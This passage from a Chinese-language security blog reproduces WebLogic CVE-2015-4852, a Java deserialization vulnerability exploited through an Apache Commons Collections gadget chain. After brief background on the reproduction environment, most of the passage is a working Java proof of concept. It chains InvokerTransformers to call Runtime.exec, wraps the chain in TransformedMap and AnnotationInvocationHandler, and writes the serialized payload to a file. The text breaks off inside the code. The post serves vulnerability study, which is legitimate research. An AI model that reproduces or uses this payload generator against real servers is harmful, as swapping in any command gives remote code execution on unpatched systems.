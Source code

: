 ### 0x01 前言

前面，我们了解了java的序列化机制，也知道在什么情况下会出现漏洞，为了对反序列化漏洞有个更直观的认识，这里就来说一说存在于apache commons-collections.jar中的一条pop链，要知道这个类库使用广泛，所以很多大型的应用也存在着这个漏洞，我这里就以weblogic cve-2015-4852来说说反序列化漏洞的具体利用方法。

在复现分析cve-2015-4852的过程中，踩了挺多坑的，网上基本没有复现cve-2015-4852的，都是一句“没有任何防御措施，可以直接拿着ysoserial的payload打”.....但是我在复现的过程中发现Weblogic运行在jdk7与jdk8下是不一样的，在jdk8下有些ysoserial中的payload不能正常使用，例如CommonsCollections1，而且我复现的weblogic版本是weblogic 10.3.6,它使用的commons-collections版本为3.2.0，ysoserial中的很多payload都是3.1的，没有仔细去研究这个版本差异是不是导致反序列化失败的原因之一，只是顺带一提

### 0x02 复现

复现环境： 
- weblogic 10.3.6  
- jdk 1.7

由于ysoserial上的payloads不太好用，我只有照猫画虎自己写一个代码生成paylod
java poc:

```java
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;


public class POC2 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");

        Map outerMap = TransformedMap.decorate(innerMap,null,chain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class,Map.class);
        cons.setAccessible(true);

        Object ins = cons.newInstance(java.lang.annotation.Retention.class,outerMap);
        FileOutputStream fos = new FileOutputStream("./poc.ser");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(ins);
//        ByteArrayOutputStream baos = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(baos);
//        oos.writeObject(ins);
//        oos.flush();
//        oos.close();
//
```